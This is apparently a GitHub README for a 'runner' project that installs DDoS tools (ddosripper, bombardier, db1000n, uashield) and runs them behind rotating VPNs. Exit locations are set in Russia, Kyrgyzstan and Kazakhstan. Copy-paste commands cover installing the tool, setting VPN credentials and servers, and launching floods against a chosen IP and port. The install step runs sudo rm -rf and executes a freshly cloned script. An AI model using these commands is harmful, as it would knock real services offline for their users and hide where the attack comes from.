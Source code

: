 # Ubuntu runner
Script runs load under vpn and refreshes vpn every N seconds

Supports many VPN providers via https://github.com/qdm12/gluetun/wiki

# Install
```
cd / && sudo rm -rf runner && \
sudo git clone https://github.com/ctukraine22/runner && \
cd /runner && bash install.sh
```
# Run

## Template

```
cd /runner && . ./runner.sh && init 0 0 %vpn-user% %vpn-pass% %vpn-type% "vpn-counties" %vpn-servers% %vpn-transport% && %tool%
```
- %vpn-type% here https://github.com/qdm12/gluetun/wiki
- %vpn-transport%: tcp/udp
- "vpn-counties" %vpn-servers%: different fore each vpn provider, see wiki

To use cyberhost you need fork this repo and replace key and crt: https://github.com/qdm12/gluetun/wiki/Cyberghost
run uashield on cyberhost
```
cd /runner && . ./runner.sh && init 0 0 %user% %pass% cyberghost "Russian Federation" 97-1-ru.cg-dialup.net tcp && uashield
```
run uashield on expressvpn
```
cd /runner && . ./runner.sh && init 0 0 %user% %pass% expressvpn Kyrgyzstan kyrgyzstan-ca-version-2.expressnetw.com && uashield
```
run ddosripper for %ip% %port% on expressvpn
cd /runner && . ./runner.sh && init %ip% %port% %user% %pass% expressvpn Kazakhstan && ddosripper

# Supported tools
- runAll: ddosripper/bombardier
- db1000n
- checksites
- ddosripper
- uashield
- bombardier
- kali